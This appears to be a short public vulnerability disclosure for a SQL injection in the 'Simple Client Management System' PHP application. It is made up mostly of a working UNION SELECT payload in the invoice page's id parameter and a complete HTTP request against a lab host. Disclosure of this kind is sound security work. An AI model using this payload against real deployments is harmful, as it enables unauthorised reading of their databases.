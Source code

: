 # Simple-Client-Mnagement-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/?page=invoice/manage_invoice&id= // Leak place ---> id

Vulnerability location: /cms/admin/?page=invoice/manage_invoice&id=, id

[+] Payload: /cms/admin/?page=invoice/manage_invoice&id=2%27%20union%20select%201,user(),3,4,5,6,7,8,9,10,11,12--+ // Leak place ---> id

```sql
GET /cms/admin/?page=invoice/manage_invoice&id=2%27%20union%20select%201,user(),3,4,5,6,7,8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
// Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164882791-7e6ec922-2c33-4400-bcbb-16d3585c07ce.png)

![image](https://user-images.githubusercontent.com/54017627/164882796-7e5b7866-92fb-47a6-906b-6ed605489343.png)


